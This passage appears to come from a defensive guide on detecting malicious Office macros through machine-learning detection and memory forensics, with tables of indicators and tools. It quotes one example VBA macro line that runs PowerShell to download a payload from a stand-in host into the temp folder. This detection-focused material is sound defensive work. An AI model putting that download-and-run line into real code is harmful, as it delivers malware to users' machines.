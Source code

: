 #### **Example**:  
Microsoft Defender ATP uses ML to detect macros that attempt to download payloads via PowerShell. For instance, a macro with the following code might be flagged:  
```vba
CreateObject("WScript.Shell").Run "powershell.exe -Command Invoke-WebRequest -Uri 'http://malicious.com/payload.exe' -OutFile '%TEMP%\malware.exe'", 0, True
```  
The model identifies the use of `Invoke-WebRequest` and the `%TEMP%` directory as high-risk indicators.  

#### **Table: Comparison of Heuristic vs. ML-Based Detection**  
| Feature                  | Heuristic Analysis               | ML-Based Analysis                |  
|--------------------------|----------------------------------|----------------------------------|  
| **Strengths**            | Fast, rule-based                 | Adapts to new evasion techniques |  
| **Weaknesses**           | Requires frequent rule updates   | Computationally intensive        |  
| **Use Case**             | Detecting known patterns         | Identifying polymorphic malware  |  

---

### **4. Memory Forensics**  
Memory forensics involves analyzing volatile memory (RAM) to detect macros that inject payloads into legitimate processes or evade disk-based detection.  

#### **Key Techniques**:  
- **Process Memory Inspection**: Scanning memory dumps for injected code, hidden threads, or modified process structures.  
- **API Hooking Detection**: Identifying hooks in system APIs that macros use to bypass security tools.  
- **YARA Rule Matching**: Applying memory-specific YARA rules to detect known malicious patterns in memory.  

#### **Tools and Frameworks**:  
- **Volatility**: A memory forensics framework that extracts artifacts from memory dumps, including process lists and injected code.  
- **Rekall**: An open-source tool for analyzing memory dumps and detecting macro-related anomalies.  

#### **Example**:  
A macro that injects a payload into `explorer.exe` might leave the following memory artifacts:  
- **Unusual Memory Regions**: Writable and executable memory sections in `explorer.exe`.  
- **Hidden Threads**: Threads created by the macro that are not visible in process listings.  

#### **Table: Common In-Memory Indicators of Macro Malware**  
| Indicator                  | Description                                  | Detection Method               |  
|---------------------------|----------------------------------------------|--------------------------------|  
| **Writable/Executable Memory** | Memory regions with both permissions         | Memory dump analysis           |  
| **Hidden Processes**        | Processes not visible in task manager        | Process enumeration checks     |  
| **API Hooking**             | Modified API addresses in memory             | Memory scanning with YARA      |  

---